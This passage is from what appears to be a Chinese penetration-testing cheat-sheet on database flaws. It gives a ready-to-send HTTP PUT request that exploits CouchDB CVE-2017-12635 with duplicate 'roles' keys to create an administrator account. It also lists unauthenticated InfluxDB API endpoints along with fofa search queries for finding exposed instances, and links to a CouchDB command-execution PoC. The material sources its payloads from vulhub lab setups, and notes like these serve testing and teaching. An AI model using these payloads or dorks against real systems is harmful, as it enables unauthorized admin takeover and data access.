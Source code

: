     CVE-2017-12635 是由于 Erlang 和 JavaScript 对 JSON 解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

- 影响版本
    - 小于 1.7.0 以及 小于 2.1.1

- POC | Payload | exp

    来源 : [Couchdb 垂直权限绕过漏洞（CVE-2017-12635）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12635/README.md)
    ```
    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: your-ip:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
    "type": "user",
    "name": "vulhub",
    "roles": ["_admin"],
    "roles": [],
    "password": "vulhub"
    }
    ```

**CVE-2017-12636 任意命令执行漏洞**
- 描述

    CVE-2017-12636 是一个任意命令执行漏洞，我们可以通过 config api 修改 couchdb 的配置 query_server，这个配置项在设计、执行 view 的时候将被运行。

- 影响版本
    - 小于 1.7.0 以及 小于 2.1.1

- POC | Payload | exp
    - [Couchdb 任意命令执行漏洞（CVE-2017-12636）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/README.md)

### InfluxDB

InfluxDB 是一个使用 Go 语言编写的开源分布式，支持高并发的时序数据库

> fofa : app="influxdata-InfluxDB"
> fofa : app="InfluxDB-2.0"

**未授权访问漏洞**
- 相关文章
    - [InfluxDB API 未授权访问漏洞简单利用](https://landgrey.me/influxdb-api-unauthorized-exploit/)
    - [influxdb未授权访问漏洞](https://blog.csdn.net/weixin_43416469/article/details/113843301)

- POC | Payload | exp

    ```
    /debug/vars
    /debug/requests?seconds=10
    /ping 用来检查数据库实例状态和版本号
    /query 用来查询数据库数据
    /write 用来更改数据库数据
    ```

---